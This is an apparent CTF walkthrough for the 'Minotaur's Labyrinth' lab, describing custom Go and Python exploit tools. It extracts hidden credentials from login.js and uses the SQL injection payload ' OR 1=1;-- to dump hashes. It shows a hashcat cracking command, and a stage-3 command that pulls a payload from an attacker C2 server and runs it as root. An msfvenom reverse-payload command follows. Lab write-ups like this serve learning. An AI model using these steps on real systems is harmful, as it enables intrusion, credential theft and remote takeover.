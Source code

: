 # Minotaur's Labyrinth: Walkthrough

## Custom Exploit Tools

### Stage 1: Password Grabber

To access the restricted area of the website, the user must pass a credential check. After manually enumerating the website and following referenced custom scripts, it is obvious that the `login.js` script referenced in the `login.html` source contains obfuscated credentials of a user `Daedalus`. The credentials are hidden in the comments of the script and are disguised as a string built by array indicies. 

```javascript
function pwdgen() {
    a = ["0", "h", "?", "1", "v", "4", "r", "l", "0", "g"]
    b = ["m", "w", "7", "j", "1", "e", "8", "l", "r", "a", "2"]
    c = ["c", "k", "h", "p", "q", "9", "w", "v", "5", "p", "4"]
}
//pwd gen for Daedalus a[9]+b[10]+b[5]+c[8]+c[8]+c[1]+a[1]+a[5]+c[0]+c[1]+c[8]+b[8]
// 
```

The [golang program](stage1.go) in this repository:

> 1. reaches out to the target and pulls down the `login.js` file
> 2. searches for the password arrays (`a`, `b`, `c`)
> 3. searches for Daedalus' password array in the comments
> 4. uses the reference arrays to build Daedalus' password
> 5. displays the extracted credentials to the user

The attacker can then use these credentials to either login to the site and proceed with the attack, or pass the credentials into another tool to automate the takeover of the target.

*Note: 
After an update to the code, the golang program now also conducts the SQLi attack and pulls down the credentials from the database after login.


### Stage 2: SQLi Injector

To leverage the credentials obtained in the first attack a tool was written in Python3. This tool extracts users and password hashes from the database using a SQLi vulnerability present in the dashboard of an authenticated user. 

After the user authenticates, they are brought to a dashboard where they can search for people and creatures. This search form reaches out and contacts `api/<creatures/people>/search` and has a SQL injection (SQLi) vulnerability present. If an attacker inputs the search string `' OR 1=1;--` they will get a dump of all the creatures or people in the database. This also displays the creatures' and people's password hashes.

After this script is run the attacker must manually crack the hashes using a tool like hashcat, john, or [crackstation](https://crackstation.net).

Hashcat Command:

```bash
hashcat -m 0 -a 0 <hash_file> <wordlist>
```

*The password can be found in the rockyou wordlist.*

Command To Execute Stage 2:

```bash
./exploit.py $TARGET daedalus <password> stage2 -a
```

*Note
The [script](exploit.py) for stage 2 is alsoused to execute stage 3, becuase stage 3 uses some of the same process as stage 2. Additionally, this python script now also automatically pulls the credentials required for "stage 2" from the website upon execution of stage 2. To conduct Stage 1 and Stage 2, the user can execute **either** the python script with "stage 2" specified as the process or run the golang program above.*

### Stage 3: Foothold

After the attacker authentictes and pulls down the user hashes, they will find that M!n0taur has an easily crackable password hash. This leaks M!n0taur's credentials and allows the attacker to login as M!n0taur (an admin). Once logged in as admin, there is both a web flag and a new page accessible. This new page allows the attacker to run the `echo` command on the target machine and opens up the target to RCE.

Command To Execute Stage 3:

```bash
./exploit.py $TARGET M\!n0taur <password> stage3 -c <C2IP>:<C2PORT> -b
```

If desired, the user can also specify `-s` to specify the name of the script the exploit will pull down from the C2 server. The default script name is `rooter.sh`.

*Note The `-b` option builds a pre-witten script that will pull down a file called `mshell` from the attacker's C2 server and uses the privilege escalation vector to have it run as root.*

*MSFVenom Payload Generation Command:*

```bash
msfvenom -p <PAYLOAD> LHOST=<C2IP> LPORT=<C2PORT> -o mshell -f elf
```